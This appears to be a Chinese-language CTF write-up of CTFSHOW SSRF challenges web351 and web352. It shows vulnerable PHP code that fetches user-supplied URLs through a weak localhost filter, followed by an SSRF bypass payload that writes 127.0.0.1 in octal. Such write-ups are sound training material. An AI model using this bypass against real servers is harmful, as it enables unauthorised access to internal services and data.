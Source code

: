 # CTFSHOW SSRF

**目录**

[TOC]





## web351

POST查看 flag.php即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/7ed1cedd30ef6c1366dc7c15fbb9d823.png" alt="" style="max-height:193px; box-sizing:content-box;" />


## web352

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
} 
```

我们看看 过滤了 localhost 和 127.0.0.1

并且需要存在http

所以我们传入payload

```cobol
url=http://0177.0.0.1/flag.php
```

这里是 八进制的 127
